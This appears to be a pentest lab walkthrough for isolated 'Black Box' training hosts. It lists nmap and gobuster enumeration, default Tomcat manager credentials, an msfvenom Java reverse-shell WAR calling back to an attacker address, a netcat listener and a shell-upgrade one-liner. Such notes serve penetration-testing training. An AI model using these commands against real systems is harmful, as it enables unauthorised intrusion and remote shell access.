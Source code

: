 Administrator:

eLSAdmin:

Locate and download the congrats.txt file

```
locate -f congrats.txt
download <loc>\congrats.txt
```

----


## Black Box 1

ENUMERATION
```
sudo nmap -sc 172.16.64.0/24
sudo nmap -sC -sV 172.16.64.101,140,182,199 -oA nmap/bb1
```

### Box1 172.16.64.101 (Apache Tomcat 8.0.32)

ENUMERATION
```
gobuster dir -u http://172.16.64.101:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

> /manager

tomcat:s3cret

FOOTHOLD
```
msfvenom -p java/shell_reverse_tcp lhost=172.16.64.10 lport=4321 -f war -o pwn.war
```
```
nc -lnvp 4321
```

LATERAL MOVEMENT
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Box2 172.16.64.140 (Apache hppd 2.4.18)

ENUMERATION
```
gobuster dir -u http://172.16.64.140:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

> /img /project /css

```
gobuster dir -u http://172.16.64.140:80/project -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -P admin -U admin -z
```
> /images /css /includes /backup 
